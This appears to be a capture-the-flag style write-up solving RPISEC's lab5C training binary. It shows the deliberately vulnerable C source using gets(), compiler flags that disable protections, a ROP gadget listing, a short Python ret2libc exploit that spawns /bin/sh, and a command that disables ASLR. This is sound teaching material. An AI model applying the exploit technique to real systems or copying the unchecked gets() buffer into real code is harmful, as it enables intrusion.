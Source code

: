 ### Solving lab5C "03/13 | --[ ROP Lab" (https://github.com/RPISEC/MBE/blob/master/src/lab05/lab5C.c)


### This lab is related to the exploration of DEP/NX.

First I'm going to talk about the problem I had with compiling of the binary. This lab was made for the 32-bit architecture and its exploration as well. So because of some problems with address randomization I had to add the flag ``` -no-pie``` to compile it. It was compiled like this: 

```gcc lab5C.c -o lab5C -fno-stack-protector -no-pie```


As the exploration learned in the slides is for 32 bits, I had to use a technique aimed at 64 bits. I did a step by step of this technique here: https://github.com/geleiaa/lowlevel_things/blob/main/rpisec_mbe_labs/bypass_NX/bypass_NX_explain.md

And now let's see how it was applied in this binary.


Let's look at the source code to see what the binary does.

```c
#include <stdlib.h>
#include <stdio.h>

/* gcc -fno-stack-protector -o lab5C lab5C.c */

char global_str[128];

/* reads a string, copies it to a global */
void copytoglobal()
{
    char buffer[128] = {0};
    gets(buffer);
    memcpy(global_str, buffer, 128);
}

int main()
{
    char buffer[128] = {0};

    printf("I included libc for you...\n"\
           "Can you ROP to system()?\n");

    copytoglobal();

    return EXIT_SUCCESS;
}

```

It looks like simple code. The main prints some text. And the ``` copytoglobal() ``` function does exactly that, it takes what comes from stdin and passes it to the global variable.

Running the binary:

![runbin](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/runbinrop.png)


### To begin the exploration, let's see if we can overflow this buffer that stores the input.

Arriving at the RET of the ```copytoglobal()``` function we see that it was overwritten after 136 bytes of our pattern:

![retoverwrite](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/retoverwriterop.png)


Now that we know how to overwrite the return address of the ```copytoglobal()``` function, let's go with the ROP + ret2libc techniques.


### ROP + ret2libc

For this exploration we will need three things: 1 - address of the ```system()``` function, 2 - an argument to system(), 3 - gadgets that put this argument in the right place.


First the Gadgets. We need a "pop rdi" so that the system() function argument is passed to the RDI register and then passed to the function.

```sh
$ ROPgadget --binary lab5C --ropchain | grep pop
0x000000000040113b : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000401136 : mov byte ptr [rip + 0x2f03], 1 ; pop rbp ; ret
0x00000000004013ac : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004013ae : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004013b0 : pop r14 ; pop r15 ; ret
0x00000000004013b2 : pop r15 ; ret
0x00000000004013ab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004013af : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000040113d : pop rbp ; ret
0x00000000004013b3 : pop rdi ; ret  <===== this addr
0x00000000004013b1 : pop rsi ; pop r15 ; ret
0x00000000004013ad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
```


Now let's get the address of the system function:

![sysaddr](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/systemaddr.png)


Lastly, the address of the string "/bin/sh" that we will use as an argument for system()

![binshaddr](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/binshaddr.png)


### Having all the addresses we will put them in the exploit

```py
import sys
import struct

gadget = struct.pack("<Q", 0x00000000004013b3)

binsh_addr = struct.pack("<Q", 0x7ffff7f7f152)

sys_addr = struct.pack("<Q", 0x7ffff7e2fe50)

sys.stdout.buffer.write(b'A'*136 + gadget + binsh_addr + sys_addr)
```


### Now let's run it in GDB and see if it works.


We can see the "pop rdi" gadget followed by "/bin/sh" and system on the stack:


![exp1](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/exprop1.png)


After pop rdi is executed we see that "/bin/sh" was passed to the register:

![exp2](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/exprop2.png)

And after the system call, GDB finishes executing the binary showing that a process has been started:

![exp3](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/exprop3.png)


It seems like everything is fine, the exploit worked in the context of GDB, now let's see outside.

note: It is worth remembering that the machine's ASLR must be disabled otherwise the exploit will not work. To disable it: ```$ sudo sysctl kernel.randomize_va_space=0```


### pwn!

![exp3](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/exprop3.png)



Remembering that the idea of this lab was to be done in 32-bit architecture but I decided to do it in 64-bit because it was more current. In 32 bits, it changes how the exploit is done by passing the system() function arguments through the stack. The rest is basically the same.

